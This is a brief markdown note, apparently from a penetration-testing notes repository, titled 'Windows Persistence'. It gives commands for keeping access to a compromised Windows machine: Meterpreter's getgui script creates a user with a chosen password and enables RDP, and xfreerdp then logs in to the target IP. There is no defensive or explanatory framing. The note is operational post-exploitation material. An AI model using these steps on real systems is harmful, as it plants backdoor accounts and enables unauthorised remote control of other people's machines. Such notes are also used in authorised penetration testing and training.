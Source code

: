 # Windows Persistence
1. Enable RDP using Metasploit module  OR
2. Create user and enable RDP-- ```run getgui -e -u (username) -p (password)```
3. login -- ```xfreerdp /u:username /p:password /v:(target IP)```

